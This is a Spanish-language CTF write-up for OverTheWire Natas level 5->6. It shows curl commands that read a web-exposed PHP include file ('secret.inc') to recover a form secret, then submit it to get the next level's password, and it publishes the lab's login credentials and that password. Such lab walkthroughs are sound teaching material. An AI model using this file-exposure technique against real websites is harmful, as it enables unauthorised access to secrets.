 ```yaml
---
title: OverTheWire - Natas 5 -> 6 (sin navegador)
layout: post
post-image: /assets/images/gatohacker1.jpg 
description: La resolución de Natas 5 -> 6 sin el uso de un navegador web.
tags:
- OverTheWire
- Natas
- post
- writeups
---
```

# Información
---

```
Username: natas6
Password: aGoY4q2Dc6MgDq4oL4YtoKtyAg9PeHa1
URL:      http://natas6.natas.labs.overthewire.org
```

# Solución
---

Primero ejecutamos el comando curl con el parámetro `-u` para indicar las credenciales. 

```bash
curl -u natas6:aGoY4q2Dc6MgDq4oL4YtoKtyAg9PeHa1 http://natas6.natas.labs.overthewire.org/
```

![](/images/images-otw-natas/natas5->6-1.png)

Notamos que se está pidiendo un **secret** el cual debemos ingresar para obtener la contraseña.

![](/images/images-otw-natas/natas5->6-2.png)

Un poco más abajo vemos un link que nos muestra el código fuente del formulario que vimos arriba.

![](/images/images-otw-natas/natas5->6-3.png)

Si accedemos a ese archivo obtenemos lo siguiente:

```bash
curl -u natas6:aGoY4q2Dc6MgDq4oL4YtoKtyAg9PeHa1 http://natas6.natas.labs.overthewire.org/index-source.html 
```

![](/images/images-otw-natas/natas5->6-4.png)

Para solucionar esto haremos uso de la herramiento `html2text` que se puede instalar con `sudo apt install html2text`.

```bash
curl -u natas6:aGoY4q2Dc6MgDq4oL4YtoKtyAg9PeHa1 http://natas6.natas.labs.overthewire.org/index-source.html | html2text 
```

![](/images/images-otw-natas/natas5->6-7.png)

Observamos la lógica del formulario ubicado en la página principal que nos pedía un secreto.

![](/images/images-otw-natas/natas5->6-5.png)

Notamos que está escrito en PHP, y que hace una comparación de nuestro input contra `$secret`. Hay un archivo llamado `secret.inc` donde debería estar el valor de la variable `$secret`.

![](/images/images-otw-natas/natas5->6-6.png)

Si ingresamos al archivo veremos el valor de `$secret`.

```bash
curl -u natas6:aGoY4q2Dc6MgDq4oL4YtoKtyAg9PeHa1 http://natas6.natas.labs.overthewire.org/includes/secret.inc
```

![](/images/images-otw-natas/natas5->6-8.png)


Volvemos a la página principal, enviamos nuestros datos con el parámetro `-d` con el valor `secret=FOEIUWGHFEEUHOFUOIU` y submit que puede ser lo que sea.

```bash
curl -u natas6:aGoY4q2Dc6MgDq4oL4YtoKtyAg9PeHa1 http://natas6.natas.labs.overthewire.org/ -d 'secret=FOEIUWGHFEEUHOFUOIU&submit=holaaaaaaa'
```

![](/images/images-otw-natas/natas5->6-9.png)

# Contraseña
---

`7z3hEENjQtflzgnT29q7wAvMNfZdh0i9`

---

## [Anterior](/level-4-5)
## [Siguiente](/level-6-7)